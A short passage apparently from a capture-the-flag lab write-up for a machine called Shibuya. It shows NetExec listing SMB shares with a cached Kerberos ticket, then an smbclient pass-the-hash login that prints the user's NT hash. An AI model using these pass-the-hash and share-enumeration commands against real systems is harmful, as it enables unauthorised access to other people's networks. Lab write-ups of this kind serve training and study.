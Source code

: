 Lets now list the shares and connect to the simon.watson’s share.

I will generate a TGT for simon.watson and list the shares.

```bash
nxc smb shibuya.vl -k --use-kcache --shares
```

![Screenshot_20251030_204639.png](/assets/images/Shibuya_VL/Screenshot_20251030_204639.png)

Connecting to the users share using smbclient.

```bash
smbclient //shibuya.vl/users -U simon.watson --pw-nt-hash 5d8c3d1a20bd63f60f469f6763ca0d50
```
